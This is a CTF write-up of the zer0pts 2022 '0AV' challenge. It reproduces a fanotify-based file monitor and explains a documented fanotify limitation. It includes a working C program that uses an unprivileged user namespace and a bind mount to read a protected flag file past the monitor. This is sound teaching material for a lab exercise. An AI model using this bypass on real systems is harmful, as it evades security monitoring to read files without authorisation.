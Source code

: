 # 0AV  
* Category: `Misc`  
* Solves: `12`  
* Points: `256`  
* Description: `This anti-virus prevents me from reading the flag. Can you read /playground/flag.txt anyhow?`

In this challenge, we're provided source code (`antivirus.c`), as well as a
`bzImage` and `rootfs.cpio` file we can use to boot the kernel.  
Let's run qemu and give it a look.

```sh  
Starting syslogd: OK  
Starting klogd: OK  
Running sysctl: OK  
Saving random seed: OK  
Starting network: OK  
Starting dhcpcd...  
dhcpcd-9.4.1 starting  
forked to background, child pid 82

Boot took 4.19 seconds

[ Native Protection - zer0pts CTF 2022 ]  
/ $ id  
uid=1337 gid=1337 groups=1337  
/ $ ls -la  
total 4  
[ ... ]  
drwxrwxrwx    2 root     root            60 Feb 20 07:51 playground  
[ ... ]  
/ $ cd playground  
/playground $ ls -la  
total 4  
drwxrwxrwx    2 root     root            60 Feb 20 07:51 .  
drwxr-xr-x   18 root     root           420 Feb 20 07:53 ..  
-rwxrwxrwx    1 root     root            28 Feb 20 07:51 flag.txt  
/playground $ cat flag.txt  
cat: can't open 'flag.txt': Operation not permitted  
/playground $ ls -la  
total 0  
drwxrwxrwx    2 root     root            40 Mar 20 13:17 .  
drwxr-xr-x   18 root     root           420 Feb 20 07:53 ..  
```

Even though we have permissions to read the flag, we're denied access and the
file was deleted. Let's check out `antivirus.c`.

```c  
#include <errno.h>  
#include <fcntl.h>  
#include <limits.h>  
#include <poll.h>  
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  
#include <syslog.h>  
#include <sys/fanotify.h>  
#include <unistd.h>

static int scanfile(int fd) {  
 char path[PATH_MAX];  
 ssize_t path_len;  
 char procfd_path[PATH_MAX];  
 char buf[0x10];

 if (read(fd, buf, 7) != 7)  
   return 0;

 if (memcmp(buf, "zer0pts", 7))  
   return 0;

 /* Malware detected! */  
 snprintf(procfd_path, sizeof(procfd_path), "/proc/self/fd/%d", fd);  
 if ((path_len = readlink(procfd_path, path, sizeof(path) - 1)) == -1) {  
   perror("readlink");  
   exit(EXIT_FAILURE);  
 }  
 path[path_len] = '\0';  
 unlink(path);

 return 1;  
}

static void handle_events(int fd) {  
 const struct fanotify_event_metadata *metadata;  
 struct fanotify_event_metadata buf[200];  
 ssize_t len;  
 struct fanotify_response response;

 for (;;) {  
   /* Check fanotify events */  
   len = read(fd, buf, sizeof(buf));  
   if (len == -1 && errno != EAGAIN) {  
     perror("read");  
     exit(EXIT_FAILURE);  
   }

   if (len <= 0)  
     break;

   metadata = buf;

   while (FAN_EVENT_OK(metadata, len)) {  
     if (metadata->vers != FANOTIFY_METADATA_VERSION) {  
       fputs("Mismatch of fanotify metadata version.\n", stderr);  
       exit(EXIT_FAILURE);  
     }

     if ((metadata->fd >= 0) && (metadata->mask & FAN_OPEN_PERM)) {  
       /* New access request */  
       if (scanfile(metadata->fd)) {  
         /* Malware detected! */  
         response.response = FAN_DENY;  
       } else {  
         /* Clean :) */  
         response.response = FAN_ALLOW;  
       }

       response.fd = metadata->fd;  
       write(fd, &response, sizeof(response));  
       close(metadata->fd);  
     }

     metadata = FAN_EVENT_NEXT(metadata, len);  
   }  
 }  
}

int main(void) {  
 int fd;

 /* Setup fanotify */  
 fd = fanotify_init(FAN_CLOEXEC | FAN_CLASS_CONTENT | FAN_NONBLOCK, O_RDONLY);  
 if (fd == -1) {  
   perror("fanotify_init");  
   exit(EXIT_FAILURE);  
 }

 /* Monitor every file under root directory */  
 if (fanotify_mark(fd,  
                   FAN_MARK_ADD | FAN_MARK_MOUNT,  
                   FAN_OPEN_PERM, AT_FDCWD, "/") == -1) {  
   perror("fanotify_mark");  
   exit(EXIT_FAILURE);  
 }

 for (;;) {  
   handle_events(fd);  
 }

 exit(EXIT_SUCCESS);  
}  
```

Most of this is boilerplate, setting up an
[fanotify](https://man7.org/linux/man-pages/man7/fanotify.7.html) listener.

Whenever we attempt to open a file located on the `/` mount, the kernel will
notify this executable. It will read from the file we attempt to access - if
it begins with `zer0pts`, it will be denied and then `unlink`'d.

Luckily, the man page has the answer for us:

```  
Bugs:  
[ ... ]  
      As of Linux 3.17, the following bugs exist:

      *  On Linux, a filesystem object may be accessible through  
         multiple paths, for example, a part of a filesystem may be  
         remounted using the --bind option of mount(8).  A listener  
         that marked a mount will be notified only of events that were  
         triggered for a filesystem object using the same mount.  Any  
         other event will pass unnoticed.  
```

We can simply perform a bind mount, and accesses to the file through it will
not trigger the `fanotify` listener. Mounting requires `CAP_SYS_ADMIN`, but
the kernel has unprivileged user namespaces available.

We can use this to enter a new mount namespace, bind mount `/playground` to a
controlled directory, and read the content of the flag:

```c  
#define _GNU_SOURCE  
#include <sched.h>  
#include <fcntl.h>  
#include <stdlib.h>  
#include <sys/mount.h>  
#include <unistd.h>  
#include <stdio.h>

int main() {  
   if (unshare(CLONE_NEWUSER|CLONE_NEWNS)) {  
       perror("unshare");  
       exit(0);  
   };  
   mkdir("/tmp/mount");  
   if (mount("/playground", "/tmp/mount", NULL, MS_BIND, NULL)) {  
       perror("mount");  
       exit(0);  
   }  
   int fd = open("/tmp/mount/flag.txt", O_RDONLY);  
   if (fd == -1) {perror("Opening"); exit(0);}  
   char buf[100];  
   int res = read(fd, buf, 100);  
   buf[res] = 0;  
   puts(buf);  
}  
```  
After uploading this on the remote instance, we get the flag printed out:

`zer0pts{FANOTIFY_d03snt_w0rk_b3tw33n_d1ff3r3nt_n4m3sp4c3s...}`

Original writeup (https://clubby789.me/zer0pts2022/#0AV).